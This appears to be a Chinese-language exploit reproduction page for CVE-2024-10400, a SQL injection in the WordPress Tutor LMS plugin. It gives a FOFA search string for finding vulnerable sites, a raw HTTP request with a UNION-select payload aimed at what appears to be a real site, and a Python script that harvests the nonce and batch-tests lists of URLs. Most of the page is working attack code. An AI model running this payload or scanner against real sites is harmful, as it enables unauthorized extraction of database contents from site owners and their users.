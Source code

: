 # WordPress插件Tutor_LMS存在SQL注入漏洞复现(CVE-2024-10400)

WordPress 的 Tutor LMS 插件在 2.7.6 及 2.7.6 之前的所有版本中存在通过 “rating_filter ”参数进行 SQL 注入的漏洞，原因是用户提供的参数未进行充分的转义处理，而且现有的 SQL 查询也未进行预编译。这使得未经认证的攻击者有可能在已有的查询中附加额外的 SQL 查询，从而从数据库中提取敏感信息。

## fofa
```javascript
body="/wp-content/plugins/tutor/"
```

## poc
```javascript
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: academy.keune.ch
Content-Type: application/x-www-form-urlencoded

action=load_filtered_instructor&_tutor_nonce=56803fc221&rating_filter=1e0+and+1=0+Union+select+1,2,3,4,5,6,7,8,9,concat(0x7e,user(),0x7e),11,12,14--+-
```

访问网站查看源码，获取_tutor_nonce的参数

![image-20241227220244898](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272202950.png)

![image-20241227220301165](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272203238.png)

## python脚本

```python
import requests
import urllib3
from urllib.parse import urljoin
import argparse
import ssl
import re

ssl._create_default_https_context = ssl._create_unverified_context
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def read_file(file_path):
    with open(file_path, 'r') as file:
        return file.read().splitlines()
        
def check_sql_injection(url):
    target_url = url.rstrip("/")
    target_url_tutor_nonce = urljoin(target_url, "")
    print(target_url_tutor_nonce)
    target_endpoint = urljoin(target_url, "/wp-admin/admin-ajax.php")

    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.3 Safari/605.1.15",  
        "Content-Type": "application/x-www-form-urlencoded"
    }

    tutor_nonce = None

    try:
        response = requests.get(target_url_tutor_nonce, verify=False, headers=headers, timeout=15)
        
        match = re.search(r'"_tutor_nonce":"(\w+)"', response.text)
        if match:
            tutor_nonce = match.group(1)
            print(f"\033[32mFound_tutor_nonce: {tutor_nonce}\033[0m")
            
        if tutor_nonce:
            payloads = f"action=load_filtered_instructor&_tutor_nonce={tutor_nonce}&rating_filter=1e0+and+1=0+Union+select+111,2222,3333,4,5,6,7,8,9,concat(md5(123321),version()),11,12,14--+-"
            
            
            response = requests.post(target_endpoint, verify=False, headers=headers, timeout=15, data=payloads)
            if response.status_code == 200 and all(key in response.text for key in ['c8837b23ff8aaa8a2dde915473ce099110']):
                print(f"\033[31mFind: {url}: WordPress_CVE-2024-10400_sql_Injection!\033[0m")
                return True

    except requests.RequestException as e:
        print(f"Error checking {url}: {e}")

    return False

def main():
    parser = argparse.ArgumentParser(description="Check for SQL injection vulnerabilities.")
    group = parser.add_mutually_exclusive_group(required=True)
    group.add_argument("-u", "--url", help="Target URL")
    group.add_argument("-f", "--file", help="File containing URLs")

    args = parser.parse_args()

    if args.url:
        check_sql_injection(args.url)
    elif args.file:
        urls = read_file(args.file)
        for url in urls:
            check_sql_injection(url)

if __name__ == "__main__":
    main()
```

## 漏洞来源

- https://github.com/iSee857/CVE-PoC/blob/d6dc0f2baa9e65ae8d277f9e67086dc2f4bd72ac/WordPress_CVE-2024-10400_sql_Injection.py#L42